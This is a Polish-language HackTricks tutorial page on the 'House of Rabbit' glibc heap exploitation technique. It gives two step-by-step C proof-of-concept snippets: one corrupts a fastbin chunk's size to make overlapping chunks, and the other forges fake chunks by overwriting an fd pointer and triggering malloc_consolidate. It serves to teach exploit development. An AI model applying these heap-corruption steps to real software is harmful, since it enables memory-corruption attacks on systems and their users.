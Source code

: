 # Dom Królika

{% hint style="success" %}
Naucz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Szkolenie AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Szkolenie GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

### Wymagania

1. **Możliwość modyfikacji wskaźnika fd lub rozmiaru fastbin**: Oznacza to, że możesz zmienić wskaźnik do przodu fragmentu w fastbin lub jego rozmiar.
2. **Możliwość wywołania `malloc_consolidate`**: Można to zrobić albo alokując duży fragment, albo łącząc fragment górny, co zmusza stertę do konsolidacji fragmentów.

### Cele

1. **Utworzenie nakładających się fragmentów**: Aby jeden fragment nakładał się na drugi, umożliwiając dalsze manipulacje stertą.
2. **Podrobienie fałszywych fragmentów**: Aby oszukać alokator, aby traktował fałszywy fragment jako prawidłowy fragment podczas operacji na stercie.

## Kroki ataku

### POC 1: Zmiana rozmiaru fragmentu fastbin

**Cel**: Utworzenie nakładającego się fragmentu poprzez manipulację rozmiarem fragmentu fastbin.

* **Krok 1: Alokacja fragmentów**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Krok 2: Zwolnij bloki**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Krok 3: Zmiana Rozmiaru Kawałka**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Krok 4: Wywołaj `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Przydzielanie dużej porcji powoduje wywołanie funkcji `malloc_consolidate`, łączącej małe porcje w szybkim pojemniku. Zmanipulowany rozmiar `chunk1` powoduje nakładanie się na `chunk2`.

Po konsolidacji `chunk1` nakłada się na `chunk2`, co umożliwia dalsze wykorzystanie.

### POC 2: Zmodyfikuj wskaźnik `fd`

**Cel**: Utwórz fałszywą porcję, manipulując wskaźnikiem `fd` w szybkim pojemniku.

* **Krok 1: Przydziel porcje**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Wyjaśnienie**: Alokujemy dwa fragmenty, jeden mniejszy i jeden większy, aby przygotować stertę do fałszywego fragmentu.

* **Krok 2: Utwórz fałszywy fragment**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Krok 3: Zwolnij `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Wyjaśnienie**: Zwolniamy `chunk1`, dodając go do listy fastbin.

* **Krok 4: Zmodyfikuj `fd` `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Wyjaśnienie**: Zmieniamy wskaźnik w przód (`fd`) `chunk1`, aby wskazywał na nasz fałszywy kawałek wewnątrz `chunk2`.

* **Krok 5: Wywołaj `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Alokacja ponownie dużej porcji powoduje uruchomienie `malloc_consolidate`, który przetwarza fałszywy kawałek.

Fałszywy kawałek staje się częścią listy fastbin, co czyni go prawidłowym kawałkiem do dalszej eksploatacji.

### Podsumowanie

Technika **House of Rabbit** polega na zmodyfikowaniu rozmiaru kawałka fast bin w celu stworzenia nakładających się kawałków lub manipulacji wskaźnikiem `fd` w celu stworzenia fałszywych kawałków. Pozwala to atakującym na tworzenie prawidłowych kawałków na stercie, umożliwiając różne formy eksploatacji. Zrozumienie i praktykowanie tych kroków poprawi Twoje umiejętności eksploatacji sterty.
